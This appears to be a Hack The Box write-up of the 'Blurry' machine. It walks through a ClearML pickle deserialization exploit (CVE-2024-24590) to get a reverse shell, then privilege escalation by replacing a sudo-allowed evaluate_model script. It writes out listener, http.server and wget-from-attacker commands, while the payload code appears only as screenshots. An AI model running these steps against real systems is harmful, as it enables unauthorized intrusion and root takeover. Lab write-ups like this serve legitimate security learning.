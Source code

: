 # Blurry Writeup

# Intro
Blurry is an interesting HTB machine where you will leverage the CVE 2024-24590 exploit to pop a reverse shell in order to escalate your privlages within the local system. This box uses ClearML, an open-source machine learning platform that allows its users to streamline the machine learning lifecycle. ClearML is used by many Data Engineers and Data Scientist.

Below you can find of the tools that I used to complete this challenge
1. Kali Linux: An operating system that specializes in penetration testing.
2. Nmap: An open-source toolf for network exploration, along with security auditing
3. Clearml python libraries: These libraries are used to interact with th open-source ClearML that we plan to hack into. I will go more into these libraries within the writeup.

I will go into detail regarding the steps taken. First we will go over the initial reconnaissance, identifying avenues of exploitation, exploitation foothold, then post exploitation.

### Initial Reconnisance
As with any initial penetration test, we will start with a nmap scan.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -v -sV -sC -p- 10.10.11.19                               
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-favicon: Unknown favicon MD5: 2CBD65DC962D5BF762BCB815CBD5EFCC
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: ClearML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

}
```

We see that we have ports 22 and 80 open. Also that that it is a Linux machine. To get more info, we will visit the page at blurry.htb or 10.10.11.19 within the web browser.


![appblurryhtb login](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/bf5b7bc6-a7f4-4fb8-ba1f-4367812385b5)


Here we are able to make a user name of our choosing and log into ClearML. You will be greated with a page regarding instructions of how to use clear ML along with creating your own credentials.

To do so, we will need to pip install the clearml libraries via the instrictions below.

![credentials](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/a2029720-dcc0-4de9-ae8a-5b35b59ee2af)



One thing to note, to be sure that the libaries are installed correctly, I ran a pip install command on the following:

```bash
pip install clearml
pip install clearml-init
pip install clearml-agent

}
```
For some reason the origional pip isntall ClearML did not properly install the clearml-init and clearml-agent for me. If you run into issues, I reccommend retying to pip install these.


### Avenues of Exploitation

After playing around with the website, and researching, I found that ClearML has a vulnerability (CVE2024-24590). This vulnerability can allow a user to run commands via the pickle python library.

The pickle library is used by many python users. The uses range from data transfer, saving a program state, or caching. From my experience as a data analyst/data scientist, the pickle library has many uses.

However in this case, we will use it as an exploit. Below is the python payload that I used.

![python payload CVE 2024 24590](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/04e406a0-42c0-40dc-8ff7-d8e9b33adcec)


### Exploitation Foothold

After the payload is created, we will run the the following command. This will start the ClearML agent to upload our malicious code to the ClearML site.

```bash
clearml-agent daemon --queue default
}
```

After this is ran, we will set up a listener (I put my listener on port 4444)

```bash
nc -lvnp 4444
}
```

Then execute the python payload

```bash
python3 <your python file payload>.py
```

NOTE: At least in my case, it took a while for me to establish a connection. I recommend getting a cup of coffee and coming back. After, you should see that we that we have a reverse shell.

![reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/b403c153-9b87-4527-9fc2-e7547d2e6af2)


### Post Exploitation

Now we are in the system and gained a foothold. It is good practice to see who we are, and if the user we are logged into has any root permissions. 

As seen below, we are the user jippity and they are able to run sudo privilages on the file path /user/bin/evaluate_model /models/*.pth. This means that we are able to run sudo level commands in this directory.

Before we do that, we can explore the directory to find the user flag. You should be able to find pretty easily as you navigate through the user files.

![userflag](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/721c2932-9a6a-49d3-b8e3-6ba81fed24ee)


After we get the userflag, our next target is the root flag. Since we know that the user we are logged in as (jippity) has sudo privlages specified in the file path above, we can navigate to the /models directory and see what is in there.

As we will see, they have two files, one being a demo_model.pth and a evaluate_model.py. Since we know that we can run sudo privlages, we can create a malicious python script to execute in order to excalate our privlages. We will do this by popping a reverse shell. Below is the python script I created in order to do so.

![evaluate_model python reverseshell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/736ec370-0133-4e3e-85f4-0fa073cd456a)


I named this file evaluate_model.py. The reason why is because we are tricking the system into thinking that it is running the origional evaluate_model.py that is within the /models directory. However, it will be running the code above instead.

After we created our second payload, we will remove the origional evaluate_model.py
```bash
rm /models/evaluate_model.py
```

Once that is removed, we will set up a simple python server on our attacking machine to upload the malicious python file.

```bash
python -m http.server <port of your choosing>
```

Then we will use wget to upload the file within the victim machine in the /models directory. NOTE: In your attacking machine, you will need to be in the directory where you ahve your malicious python file is.

```bash
wget http://<your ip>:<your port>/<malicious.py> -O evaluate_model.py
```

After, we should see that the script was succesfully uploaded. Now we will set up a netcat listener

![reverse shell root](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/3ce4a8bf-1a75-4f22-995e-22613e9743ba)



Now we will execute the scriptwithin the models directory with the following command.

```bash
sudo /usr/bin/evaluate_model /models*.pth
```
![sudo command](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/2d580148-49a5-4d90-bf4f-81d8fdfb8355)

At last we are logged in as root.

![root reverse shell](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/ceb961b6-bf77-400c-b644-eec87db80749)

From here, we can explore directories as root and we can cat the root.txt file to get the root flag.

![rooted](https://github.com/theryeguy92/HTB_Blurry_Writeup/assets/103153678/7f4a980e-eb49-4cce-9106-518bd9062457)







